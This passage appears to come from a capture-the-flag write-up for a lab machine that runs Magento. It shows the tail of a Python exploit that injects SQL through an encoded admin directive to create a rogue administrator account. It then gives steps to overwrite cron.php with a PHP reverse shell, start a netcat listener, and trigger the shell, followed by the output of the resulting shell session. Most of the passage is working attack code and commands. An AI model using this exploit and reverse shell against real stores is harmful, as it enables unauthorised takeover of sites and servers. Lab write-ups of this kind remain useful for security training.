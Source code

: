 ```
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

print r.ok
```

Run it! Yes! We get an account created!

username: forme
password: forme

Use the admin panel->Filesystem->IDE tool to edit an existing .php file
http://10.10.10.140/index.php/filesystem/adminhtml_filesystem/index/key/03a087d4216efe45c617f76e40c77adb/

Replace contents of http://10.10.140/cron.php with a reverse shell (I used /usr/share/webshells/php/php-reverse-shell.php
 from my Kali machine)

Start a netcat listener on your attack machine:
```
nc -klnvp 8888
```

Trigger the reverse shell: eg
```
http://10.10.10.140/cron.php
```

Voila! Reverse shell!
```
connect to [10.10.15.56] from (UNKNOWN) [10.10.10.140] 43662
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:24:44 up 7 min,  0 users,  load average: 0.10, 0.10, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

